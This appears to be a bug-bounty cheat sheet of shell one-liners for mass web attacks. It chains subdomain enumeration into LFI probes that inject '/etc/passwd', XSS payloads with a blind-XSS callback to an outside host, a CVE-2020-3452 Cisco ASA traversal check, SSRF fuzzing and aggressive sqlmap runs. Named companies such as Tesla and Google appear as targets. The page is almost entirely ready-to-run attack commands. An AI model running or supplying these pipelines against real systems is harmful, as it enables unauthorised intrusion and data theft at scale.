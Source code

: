 # Common 

## domains
```bash 
cat wildcards.txt | assetfinder -subs-only | anew domains
```

```bash 
amass enum -df wildcards.txt | anew domains
```

```bash 
subfinder -silent -dL wildcards.txt| anew domains
```

```bash 
for i in $(cat wildcards.txt);do bash ~/scripts/Sub-Drill.sh $i | anew domains;done 
```

## one liners and tools

```bash 
sort -u domains | httprobe > uniq.txt
```

```bash
crlfuzz -l uniq.txt -s
```

```bash
gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

```bash 
cat uniq.txt |waybackurls | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt
```

```bash
python3 ~/tools/Corsy/corsy.py -i uniq.txt 
```

```bash 
python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 
```

```bash
python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q
```

```bash
python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt
```


* CVE-2020-3452
```bash
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# pwd
/root/cves/CVE-2020-3452
                                                                                              
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# python3 CVE-2020-3452.py -i ~/private_hackerone/playtika/domains
```

```bash 
cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

```bash
subzy -targets domains -hide_fails
```

```bash
jaeles scan -s /root/.jaeles/base-signatures/cves/* -U domains.txt
```

## Heavy 
```bash
eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward
```

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## SSRF Test (Wayback + Burp Pro)

```bash
cat wayback.txt | gf ssrf | sort -u >> testblindssrf.txt
```

```bash
cat testblindssrf.txt | qsreplace "burp_url" >> ssrfuzz.txt

ffuf -c -w ssrfuzz.txt -u FUZZ -t 200
```

## dalfox

```bash 
python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt
```

```bash
dalfox -b l3gend.xss.ht file param.txt
```

## SQL Injection Mass Testing

```bash
subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls
```

```bash
cat urls | gf sqli | tee -a sqli
```

```bash
while read line;do sqlmap -u $line --parse-errors --current-db --invalid-logical --invalid-bignum --invalid-string --risk 3;done < sqli
```
